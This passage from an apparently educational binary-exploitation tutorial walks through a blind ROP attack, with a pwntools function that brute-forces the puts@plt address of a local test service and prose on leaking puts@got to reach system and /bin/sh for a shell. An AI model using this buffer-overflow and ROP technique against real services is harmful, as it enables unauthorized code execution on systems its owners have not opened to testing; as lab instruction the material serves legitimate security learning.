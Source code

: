 

The specific function is as follows


```python

def get_puts_addr(length, rdi_ret, stop_gadget):

    addr = 0x400000

    while 1:

        print hex(addr)

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(

            addr) + p64(stop_gadget)

        sh.sendline(payload)

        try:

            content = sh.recv()

            if content.startswith('\x7fELF'):

                print 'find puts@plt addr: 0x%x' % addr

                return addr
            sh.close()

            addr += 1

        except Exception:

            sh.close()

            addr += 1

```



Finally, according to the structure of plt, choose 0x400560 as puts@plt


#### Leaking puts@got address


After we can call the puts function, we can leak the address of the puts function, and then get the libc version, so as to get the relevant system function address and /bin/sh address to get the shell. We leaked 0x1000 bytes from 0x400000, which is enough to contain the plt part of the program. code show as below
